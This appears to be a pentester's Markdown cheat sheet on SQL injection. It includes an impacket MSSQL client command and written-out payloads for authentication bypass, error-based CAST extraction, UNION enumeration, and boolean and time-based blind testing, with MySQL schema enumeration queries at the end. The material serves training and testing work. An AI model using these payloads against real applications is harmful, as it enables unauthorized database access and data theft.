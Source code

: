 # SQL Injection

On Kali, to connect to an MSSQL database on a Windows machine, do:

```
impacket-mssqlclient ${USER}:${PW}@${RHOST} -windows-auth
```

Start by giving it simple queries that tell you something about what query the web application is attempting to make.
Then, use [these payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md) for inspiration on enumeration.

## Error based

When logging into an application, you might see errors from the underlying databases.
This can be a sign of potential for SQL injection.
A good starting point to check for that would be:

```
admin' OR 1=1 -- //
```

This is good against queries such as `SELECT * from users where user=$user and pw=$pw`.
The early `' OR 1=1 -- //` is an attempt at ending the query early by outcommenting the `and...` statement and instead evaluating `1=1`.


A good trick for error based injection, once you have a simple query, is to  `CAST` the value you want to a wrong type:

```
' Union SELECT null, CAST(CURRENT_USER as int), null, null, null, null from user
```

so that the value shows up in the error on the web page.

*Note* the `null,` as the first part of the select-statement.
doing a `CAST` directly after `SELECT` didn't work with postgresql.

### In-band Union based injection

When the results are shown on the page, it can be good to attempt a Union based attack.
This often happens when the underlying database runs a query like

```
SELECT * WHERE UserInfo LIKE $userInput
```
and the result is simply shown on the corresponding website.
Start by enumerating the number of collumns in the table.
Once that is done, you will be able to get a number of columns where you can see the output 


then, we can do futher enumeration like:

```
' UNION SELECT null, user(), @@version, database(), null, null  -- //
```
or enumeration queries as seen in the bottom of this note document.

## Blind SQLi


To test for blind boolean-based SQLi, do something like:

```
admin' AND 1=1 -- //
```

This will only return true if the `admin` user exists.

Similarly, for time-based SQLi, we can do something like:

```
admin' AND IF (1=1, sleep(4),'false') 
```
which will return after 4 seconds when `admin` exists.


## Good enumeration queries for MySQL

```
SELECT table_name FROM information_schema.tables
```
equivalent to `SHOW DATABASES`:
```
SELECT schema_name 
FROM information_schema.schemata;
